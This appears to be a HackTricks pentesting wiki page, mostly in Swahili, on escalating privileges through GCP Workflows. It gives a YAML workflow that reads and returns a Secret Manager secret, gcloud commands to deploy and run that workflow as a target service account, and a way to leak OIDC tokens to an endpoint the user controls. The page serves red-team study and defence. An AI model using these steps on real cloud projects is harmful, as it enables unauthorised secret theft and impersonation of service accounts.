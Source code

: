 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Basic Information:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Afaik haiwezekani kupata shell yenye ufikiaji wa metadata endpoint inayoshikilia akidi za SA za SA iliyoshambuliwa kwenye Workflow. Hata hivyo, inawezekana kutumia vibaya ruhusa za SA kwa kuongeza vitendo vya kutekeleza ndani ya Workflow.

Inawezekana kupata nyaraka za viunganishi. Kwa mfano, hii ni [**ukurasa wa kiunganishi cha Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Katika upande wa sidebar inawezekana kupata viunganishi vingine vingi.

Na hapa unaweza kupata mfano wa kiunganishi ambacho kinachapisha siri:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Sasisha kutoka CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Ikiwa huna ufikiaji wa wavuti, inawezekana kuanzisha na kuona utekelezaji wa Workflow kwa: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Unaweza pia kuangalia matokeo ya utekelezaji wa awali kutafuta taarifa nyeti
{% endhint %}

Kumbuka kwamba hata kama unapata kosa kama `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` kwa sababu huna ruhusa hiyo, workflow imeundwa.

### Leak OIDC token (na OAuth?)

Kulingana na [**nyaraka**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) inawezekana kutumia hatua za workflow ambazo zitatumia ombi la HTTP na token ya OAuth au OIDC. Hata hivyo, kama ilivyo katika kesi ya [Cloud Scheduler](gcp-cloudscheduler-privesc.md), ombi la HTTP lenye token ya Oauth lazima liwe kwa mwenyeji `.googleapis.com`.

{% hint style="danger" %}
Kwa hivyo, ni **uwezekano wa kuvuja token ya OIDC kwa kuashiria mwisho wa HTTP** unaodhibitiwa na mtumiaji lakini ili kuvuja token ya **OAuth** unahitaji **kupita** kwa ulinzi huo. Hata hivyo, bado unaweza **kuwasiliana na api yoyote ya GCP ili kutekeleza vitendo kwa niaba ya SA** ukitumia ama viunganishi au maombi ya HTTP yenye token ya OAuth.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Kwa ruhusa hii badala ya `workflows.workflows.create` inawezekana kuboresha workflow iliyopo tayari na kufanya mashambulizi sawa.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
